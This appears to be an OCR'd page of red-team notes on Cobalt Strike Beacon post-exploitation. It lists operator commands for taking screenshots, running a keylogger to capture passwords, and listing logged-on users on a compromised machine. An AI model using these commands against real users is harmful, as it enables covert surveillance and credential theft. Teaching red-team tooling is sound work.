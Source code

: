 
# Screenshots

We can retrieve important information doing screenshots of the user's desktop. We can retrieve shortcuts they have, what documents they're looking and so on.

Screenshots are stored in `View -> Screenshots`.

Beacon has multiple commands to take screenshots.

* **printscreen**: Take a single screenshot via PrintScr method.
```
beacon> printscreen
```

* **screenhost**: Take a single screenshot.
```
beacon> screenhost
```

* **screenwatch**: Take periodic screenshots.
```
beacon> screenwatch
```

# Keylogger

A keylogger can capture the keystrokes of a user, which is specially useful for capturing usernames, passwords and other sensitive data.

We can see the output of the keylogger in `View -> Keystrokes`.

```
beacon> keylogger
```

The keylogger runs as a job that can be stopped with the jobkill command.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 1    0     keystroke logger

beacon> jobkill 1
```
# User Sessions

We can check which users are currently logged on the compromised machine.

```
beacon> net logons
```
